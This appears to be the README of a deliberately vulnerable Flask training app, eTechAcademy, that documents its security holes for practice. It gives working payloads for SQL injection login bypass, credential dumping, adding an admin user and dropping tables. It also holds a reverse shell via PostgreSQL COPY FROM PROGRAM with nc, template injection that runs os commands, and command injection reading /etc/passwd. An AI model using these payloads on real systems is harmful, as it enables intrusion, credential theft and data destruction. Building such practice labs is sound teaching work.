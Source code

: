 # eTechAcademy Flask App

## Vulnerabilities

### SQL Injection
#### Retrieve Data
Paths: `/login` and `/index`

Methods: `GET, POST`

**Examples:**
- Log into admin account with SQL
```
username: ' OR 1=1--
password: a

OR 

username: admin 
password: ' OR 1=1--
```

- Vulnerable query database on `/index`
```
' OR 1=1--
' UNION SELECT user_id, username,password FROM users--
' UNION SELECT user_id, username || '~' || password,role FROM users--
```
![SQL Injection](assets/index_sql_injection.png)
Resources: [Sqli CheatSheet](https://book.hacktricks.xyz/pentesting-web/sql-injection)


**SQL Fix:**
```
cur.execute("SELECT user_id, role FROM users WHERE username = %s AND password = %s", (username, password))
```

#### Insert/Update/Drop Data
**Examples:**
Path: `/add_course`

Methods: `GET, POST`

*Note:* Must be **Instructor/Admin** role and you must select instructor and set image_path for this to work properly.
```
# Insert new admin user
New Course', 'Malicious Description', NULL, 'image.jpg'); INSERT INTO users (username, password, role) VALUES ('evil', 'evil', 'admin'); --

# Update admin password
New Course', 'test', NULL, 'test.jpg'); UPDATE users SET password = 'testing' WHERE username = 'admin'; --

# Drop table
New Course', 'test', NULL, 'test.jpg'); DROP TABLE courses CASCADE; --
```
![SQL Injection Query](assets/add_course_sql_query.png)
![SQL Injection Proof](assets/add_course_sql_proof.png.png)

#### RCE Via SQL Injection (Postgresql)
Path: `/add_course`

Methods: `GET, POST`

**Example:**
```
NewCourse', 'test', 1, 'test'); DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f'; SELECT * FROM cmd_exec;--
```

### Server-Side Template Injection
Paths: `/search_course`

Methods: `GET, POST`

**Examples:**
```
{{ 7 * 7 }}
```

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
![Server Side Template Injection](assets/course_ssti.png)
Other resources: [SSTI Cheatsheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

### Command Injection
Path: `/admin_dashboard/system_monitor`

Methods: `GET, POST`

*NOTE: Anyone can access this page. Code doesn't check for user or admin role.*
**Examples:**
```
whoami
cat /etc/passwd
```
![Command Injection](assets/command_injection.png)

### Forgot Password
Path: `/forgot_password`

Methods: `GET, POST`

Anyone can change password to any user since it doesn't authenticate existing user.

![](assets/forgot_password.png)

### Command Injection via API endpoint
Path: `/endpoint`

Methods: `POST`

![](assets/endpoint_script_exploit.png)

**Example**
```
python3 etechacademy_script.py --target <HOST> --port <PORT> --context endpoint --cmd <CMD>
curl -X POST http://<target>:<port>/endpoint -H "Content-Type: application/json" -d '{"command": "whoami"}'
```

### Unrestricted File Upload
Path: `/upload`

Methods: `GET, POST`

Can upload files to server with any extension. Once uploaded, you can execute the file it is has (*.php, .py, .sh*) extensions or delete the file.
![Upload File](assets/upload_file.png)

### Debug Shell
Path: `/debug`

Methods: `GET`

Debug shell to execute python commands on server.
![](assets/debug_shell.png)

